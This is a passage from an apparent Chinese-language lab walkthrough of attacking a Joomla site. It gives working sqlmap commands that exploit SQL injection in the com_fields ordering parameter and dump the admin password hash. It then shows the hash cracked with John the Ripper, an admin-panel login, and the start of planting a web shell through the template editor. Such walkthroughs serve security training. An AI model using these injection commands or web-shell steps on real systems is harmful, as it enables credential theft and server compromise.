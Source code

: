 可以发现，joomladb数据库下有很多表，正常情况，用户名和密码一般存储在users表中；所以我们继续查询users表中的字段；

```
sqlmap -u "http://192.168.1.4/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --columns -p list[fullordering]
```

![image-20240405153150140](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405153150140.png)

可以看到，users表中的字段存在username和password字段；我们根据字段名继续查询数据；

```
sqlmap -u "http://192.168.1.4/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C username,password --dump -p list[fullordering]
```

![image-20240405153239537](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405153239537.png)

```
admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu 
```

经过 库,表,列,数据 ,我们成功查询到用户名和密码，由于该密码是加密的，所以我们需要解密；

---

首先将密码存到文件

![image-20240405153629618](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405153629618.png)

再使用john工具进行破解

![image-20240405154016685](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405154016685.png)

如此，成功的获得了账号和密码

```
admin : snoopy
```

尝试登录，我们可以成功进入该网页后台

![image-20240405154235830](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405154235830.png)

---



### 获取shell

在后台中，需要寻找文件的上传或编辑位置，将我们的一句话木马写入该服务；

经过一段查找，我们最后在templates里，点击左边第二个templates，点击Beez3，成功找到了文件编辑区域

![image-20240405154535323](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405154535323.png)

创建一个文件

